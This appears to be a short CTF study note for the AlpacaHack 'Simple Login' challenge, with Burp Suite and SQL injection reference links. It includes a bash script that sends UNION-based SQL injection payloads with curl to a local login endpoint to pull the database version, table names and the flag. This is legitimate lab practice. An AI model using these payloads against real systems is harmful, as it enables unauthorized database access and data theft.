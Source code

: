 # Burp Suite
# Windows
- https://portswigger.net/burp/communitydownload
- Burp Suite Community Edition Windows (x64) をダウンロード
- https://www.leon-tec.co.jp/blog/10174/

# SQL injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/sql-injection/union-attacks

# shell sciprt
**sql_injection.sh**
```bash
#!/bin/bash
# (Simple Login)[https://alpacahack.com/ctfs/round-2/challenges/simple-login]
URL="http://127.0.0.1:3000/login"
# simple-login には 64 文字以内の制限がある
QUERIES=(
'SELECT @@version,NULL'
'SELECT table_name,NULL FROM information_schema.tables'
'SELECT value,NULL FROM flag'
)
for q in "${QUERIES[@]}"; do
    echo "[+] $q"
    curl -i -X POST \
        --data-urlencode "username=\\" \
        --data-urlencode "password= UNION ${q}-- " \
        $URL 2>/dev/null |
        awk '/^Set-Cookie:/{print $2}' | cut -d'=' -f 2 | sed 's/;//'
    echo
done
```
